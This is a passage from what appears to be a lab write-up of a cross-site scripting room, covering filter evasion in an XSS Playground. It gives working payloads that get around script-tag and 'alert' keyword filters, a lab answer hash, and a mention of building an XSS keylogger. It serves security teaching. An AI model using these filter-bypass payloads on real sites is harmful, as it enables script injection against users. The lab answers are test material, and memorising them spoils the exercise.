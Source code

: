 1. Create your own version of an XSS keylogger and see it appear in the logs part of the site.

*No answer needed*

### TASK 8 : Filter Evasion

There are many techniques used to filter malicious payloads that are used with cross-site scripting. It will be your job to bypass 4 commonly used filters.

Navigate to "Filter Evasion" in the XSS Playground to get started.

Cross-site scripting are extremely common. Below are a few reports of XSS found in massive applications; you can get paid very well for finding and reporting these vulnerabilities.  

-   [XSS found in Shopify](https://hackerone.com/reports/415484)
-   [$7,500 for XSS found in Steam chat](https://hackerone.com/reports/409850)
-   [$2,500 for XSS in HackerOne](https://hackerone.com/reports/449351)
-   [XSS found in Instagram](https://hackerone.com/reports/283825)


1. Bypass the filter that removes any script tags.

*payload:* `<img src=x onerror=alert('Hello');>`

![](Pastedimage20210612113149.png)
*ANSWER:* 3c3cf8d90aaece81710ab9db759352c0


2. The word alert is filtered, bypass it.

*payload:* `<img src="blah" onerror=confirm("Hello") />`

![](Pastedimage20210612113530.png)